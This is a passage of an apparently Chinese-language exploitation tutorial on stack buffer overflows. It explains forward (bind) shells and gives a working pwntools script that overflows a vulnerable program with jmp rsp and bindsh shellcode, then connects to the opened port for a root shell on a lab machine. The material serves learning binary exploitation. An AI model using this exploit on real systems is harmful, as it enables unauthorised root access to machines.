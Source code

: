 

用IDA看一下，得到了溢出的偏移（0x16+8)。

由于没有开启NX，我们使用shellcode。如果只是正常开启shell的shellcode的话，那就是本文最开始第二个问题所出现的情况（就是确实是开启了一个shell，但是开在了目标机上，跟攻击者没有任何关系）

因此这里我们就要换一种shellcode。在这之前还要学习一下正连与反连。

## 正连（正向shell）

我大概说一下正连的原理。我们现在有一个**shellcode**，他的功能是**在目标机上开启一个shell**（现在看来功能和寻常获取shell的shellcode没什么区别），不过紧接着**这个shellcode还会将刚刚开启的这个shell 的输入、输出绑定到我们指定的端口上（这个端口是在目标机上的）**。然后**我们继续利用pwntools去连接这个新开的端口，这样我们就获得了一个可以与目标机产生交互的shell（因为我们远程连接了目标机一个端口上的shell嘛）**。

```python
from pwn import *
context(arch='amd64',os='linux')

io = remote("192.168.43.71",8888)
sc = asm(shellcraft.bindsh(4444))#这个意思就是开启一个shell，把这个shell绑定到4444端口
io.send('a'*30+p64(0x400669)+sc)#这个偏移是30，但是好像不同的机器编译源码之后，这个偏移可能不一样。然后这个0x400669是jmp rsp的位置，这个不同电脑的这个指令位置也是不同的，还是要自己用ROPgadget搜一下吧。

sh = remote("192.168.43.71",4444)#然后再次连接到刚刚开启的shell上
sh.interactive()#这个交互是与sh交互，而不是与io交互
```

因为kali是以root权限运行的漏洞程序，因此用脚本开启的shell就直接是root权限，还可以创建和删除文件。

![image-20220411121752102](/upload/img/image-20220411121752102.png)

![image-20220411121755672](/upload/img/image-20220411121755672.png)
